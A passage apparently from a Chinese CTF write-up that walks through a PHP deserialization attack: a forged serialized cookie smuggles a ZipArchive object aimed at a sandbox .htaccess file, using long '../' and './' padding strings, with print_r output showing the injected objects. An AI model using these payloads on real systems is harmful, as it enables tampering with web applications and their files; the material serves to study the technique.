 第二个文件对象的fakename:

```
";s:8:"realname";s:1:"A";`}`i:1;O:10:"ZipArchive":7:`{`s:8:"fakename";s:58:"sandbox/ded5a68df70145b3a0bbe9c4290a729d37071e54/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"
```

第一个文件对象的fakename:

```
../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../
```

修改伪造之后成功伪造引入非法对象的Cookie

```
a:2:`{`i:0;O:10:"UploadFile":2:`{`s:8:"fakename";s:351:"./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././";s:8:"realname";s:44:"3c4578834eed3f05bd8b099e7fc2c633af6c5fdc.jpg";`}`i:1;O:10:"UploadFile":2:`{`s:8:"fakename";s:253:"";s:8:"realname";s:1:"A";`}`i:1;O:10:"ZipArchive":7:`{`s:8:"fakename";s:58:"sandbox/ded5a68df70145b3a0bbe9c4290a729d37071e54/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"";s:8:"realname";s:44:"75a9c6a2fcb5d7c6809ec7c1a5859a7f83637159.jpg";`}``}`cc2ffa6941ffc8895e4c029f62046ab7963af6ec9e5061103d71a295834b388b
```

查看非法对象Cookie中files的文件对象数组

```
php &gt; print_r(unserialize($X));
Array 
(   
    [0] =&gt; __PHP_Incomplete_Class Object 
        (  
            [__PHP_Incomplete_Class_Name] =&gt; UploadFile   
            [fakename] =&gt; ./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././";s:8:"realname";s:44:"3c4578834eed3f05bd8b099e7fc2c633af6c5fdc.jpg";`}`i:1;O:10:"UploadFile":2:`{`s:8:"fakename";s:253:" 
            [realname] =&gt; A     
        )        
    [1] =&gt; ZipArchive Object
        ( 
            [status] =&gt; 0   
            [statusSys] =&gt; 0  
            [numFiles] =&gt; 0     
            [filename] =&gt; 
            [comment] =&gt; 
            [fakename] =&gt; sandbox/ded5a68df70145b3a0bbe9c4290a729d37071e54/.htaccess
            [realname] =&gt; 9   
        )  
)
```
